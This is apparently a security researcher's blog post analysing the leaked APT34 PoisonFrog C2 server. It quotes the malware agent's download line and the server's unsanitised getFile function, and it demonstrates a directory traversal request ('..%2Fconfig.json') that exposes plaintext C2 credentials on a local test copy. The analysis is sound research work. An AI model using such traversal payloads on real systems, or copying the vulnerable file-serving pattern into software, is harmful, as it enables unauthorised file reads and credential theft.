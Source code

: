 ```yaml
---
layout: post
title:  "A journey on APT34 PoisonFrog C2 Server"
date:   2019-05-31
categories: security apt34 malware poisonfrog vulnerability
---
```


## Introduction

In this blog post I will analyse the C2 Server used by Oilrig/APT34 and how bad coding practice can lead to vulnerabilities that can allow the takeover of the C2 server.

Every time there is a leak that affects some hacking group it always sparks my interest. I always study the source code and the features these tools have in order to learn new techniques that may come in handy during our Red Team operations, so I started digging in the PoisonFrog C2 framework.


I started by downloading the tools on Github : <https://github.com/blackorbird/APT_REPORT/tree/master/APT34>


## PoisonFrog C2 Server


The C2 Server is built on node.js and the coding pattern that are used shows that whoever programmed the C2 side of the framework wasn't very experienced with programming. Unfortunately the source code of the C2 server is missing the most important part, the script bringing everything together, but by looking at different components of the framework we get a clear description of how everything is "glued" together.


The "serverside" folder of the C2 framework contains the following files :


* installing - This folder contains bash and bat scripts for the installation of the dependencies.
* routes - This folder contains a javascript file that contains most of the source code.
* views - The html templates.
* 0000000000.bat/9999999999.bat - bat files that gathers information about the computer is executed on.
* config.json - The C2 server configuration.


The most interesting file was index.js which was responsible for exporting most of the functions used by the C2 server.
Firstly, I started looking at the login functionality which immediately showed the code quality. As can be seen below, it first checks if a cookie with the username is set and if not it will try to compare the credentials provided on the request. 
This authentication mechanism is clearly poor and there are a lot of bad practices but none of them allows you to bypass the authentication.

```js
exports.login = function (req, res) { // .......... login checking function ............
    var Cookies = require('cookies');
    var cookies = new Cookies(req, res);
    var cookie = cookies.get(config.user);
    if (cookie === undefined) {
        //console.log("cookie not exist");
        var username = req.body.username;
        var password = req.body.password;
        //console.log(username+"   "+password);
        if (username == config.user && password == config.password) {
            // set cookie
            cookies.set(config.user, config.password, { maxAge: new Date(Date.now() + 3600000), expires: new Date(Date.now() + 3600000), httpOnly: true })
            //console.log('cookie created successfully');
            res.redirect("/in/http");
            return;
        } else {
            res.redirect(config.guid);
            return;
        }
    } else {
        // yes, cookie was already present 
        //console.log('cookie exists', cookie);
        res.redirect("/in/http");
    }
}
```


At this point I was pretty sure there would be some more poorly implemented code and I stumbled across the following function.

```js
exports.getFile = function (req, res) {
    var fileName = req.params.input;
    var fs = require('fs');
    var fileAddress = commonDir + "files/" + fileName;
    fs.createReadStream(fileAddress).pipe(res);
};
```
The exported function getFile initializes the fileName variable from the request that is sent to the C2 server. Since no sanitization is done on the input, an attacker can specify a specially crafted *input* parameter in  order to access files outside of the main directory.


Unfortunately, we do not have access to the entire source code but based on the code we have we can confirm that the vulnerability exists.


In order to understand at what point of the communication between the agent and the C2 the getFile function was used, I needed to get a better understanding of both components.


On line 826 the exports.agent function is defined with the comment "agent request for last command". From that comment we can clearly understand that this function is responsible for handling the command distribution on the agent. 
Basically what the function does is it will get the agentId from the request and check if this is an existing agent or not.
If it's a new agent, it will create three directories "/send/" , "/receive/", "/wait/" as can bee seen in the code snippet below.

```js
var agentCode = req.params.input;
[SNIP]
agentId = agentCode.substring(0, 5) + agentCode.substring(agentCode.length - 5, agentCode.length);
var agentDir = commonDir + "http/" + agentId;
        if (!fs.existsSync(agentDir)) { // this is new agent ....
            fs.mkdir(agentDir, function (err) {
                if (err) { console.log(err); }
                fs.mkdir(agentDir + "/send/");
                fs.mkdir(agentDir + "/receive/");
                fs.mkdir(agentDir + "/wait/", function (err) {
                    if (err) { console.log(err); }
[SNIP]
```

We can skip the send and receive folders and only focus on the /wait/ one. As I mentioned earlier, the *0000000000.bat* file was responsible for collecting information regarding a Windows host.
So after creating the wait folder, it will read the bat file and write it in commonDir + "/files/386be98ce7c7955f92dc060779ed7613" as can be seen in the below :

```js
fs.createReadStream("./0000000000.bat").pipe(fs.createWriteStream(commonDir + "/files/386be98ce7c7955f92dc060779ed7613"));
```

Additionally, it will create a file named 00000000 in the Agent wait directory.
```js
fs.writeFile(agentDir + "/wait/0000000000", "0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not", function (err) { if (err) { console.log(err); } });
```

We can see that the filename *386be98ce7c7955f92dc060779ed7613* which was created previously, is embedded in the response the C2 server sends to the agent. Merely by looking at the constructed string we can see that the filename is used by the agent to access the bat file. If you remember the getFile function, it was using the same directory (commonDir + /files) to serve the files thus demonstrating the consistency of the file directories between the getFile and agents functions.


The other missing part of the puzzle is the URL endpoint the *getFile* function was called on and since some of the server code was missing my focus turned in analyzing the powershell Agent.

In order to understand the process better let's follow the communication between the agent and the C2 step by step.

1. Agents connects to the C2 Server.
2. C2 Server builds the command and sends it to the agent.
```
0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not
```
3. The Agent receives the command from the C2, and creates an array out of it as we can see in the following code snippet:
```ps
if ({DownloadedCommand}) {
        {AgentCommandArray} = {DownloadedCommand}.split("<>") | where {$_}
```
4. After performing some checks on the array, the agent used powershell webclient in order to download the file named as the third(fourth) element of the array and saving it in $EEA+second(third) element of the array. The $EEA variable is defined in the beginning of the agent and contains the value $env:PUBLIC+"\Public\files\".

```ps
{WebClientGlbVariable}.DownloadFile("http://c2server/fil/"+{AgentCommandArray}[3], $EEA+{AgentCommandArray}[2]);
```
The "parsed" call would we something like this :
```
WebClient.DownloadFile("http://c2server/fil/386be98ce7c7955f92dc060779ed7613",$env:PUBLIC+"\Public\files\" +  "0000000000.bat" .
```

It should be noted that the following snippets of code has been taken by the HTTP agent that was dropped by the powershell script. Also, some of the variable names have been  changed to be more clear to read.

Now we can clearly connect all the dots between the way the agent downloads the file and how the getFile function is responsible for sending the file response back.

## Conclusions

Having a good understanding of where the vulnerable function is used, the implementation of the missing code would be something like this :

```js
const express = require('express')
const app = express()
[SNIP]
app.get('/fil/:input',getFile);
[SNIP]
```

As I described earlier in the post, this is a directory traversal vulnerability and can be exploited in several ways but the most relevant in this case would be reading the config.json file which contains the clear text credentials of the C2, giving us control over the C2 Server. An example service was started that implemented the same function as the C2 server and sending the following request disclosed the clear text credentials on the config.json file, in this case the ones in the leak.

```bash
test@ubuntu:~$ curl 'http://127.0.0.1:3000/fil/..%2Fconfig.json'
{
    "guid" : "/7345SDFHSALKJDFHNASLFSDA3423423SAD22",
        "user" : "blacktusk",
        "password" : "fireinthehole"
}test@ubuntu:~$
```

Keep in mind that this blog post this was constructed by my understanding of both the components of Poison Frog but I can't certainly confirm the existence of the vulnerability without having the entire code. However, there are firm evidences in the components code that agrees with me `¯\_(ツ)_/¯` .

If you have any questions or maybe some knowledge to drop feel free to contact me.



